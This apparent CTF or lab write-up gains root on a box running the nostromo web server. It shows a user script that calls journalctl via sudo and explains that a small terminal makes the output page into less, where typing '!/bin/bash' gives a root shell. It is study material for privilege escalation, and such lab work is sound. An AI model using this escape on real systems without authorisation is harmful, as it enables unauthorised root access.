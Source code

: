 # Privilege Escalation to root
## Found server-stats.sh in user david bin directory
Found `server-stats.sh` in user `david` `bin` directory which had following contents
```bash
$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
This script is running `journalctl` as sudo and printing first five lines of `unostromo.service` log . 
So executing `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` command will open it in `less` command according to [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) in small terminal less than 5 rows like below
![[Pasted image 20210710144055.png]] 
Now  typing `!/bin/bash` in less mode will open bash as root like below.
![[Pasted image 20210710144230.png]]
![[Pasted image 20210710144300.png]]


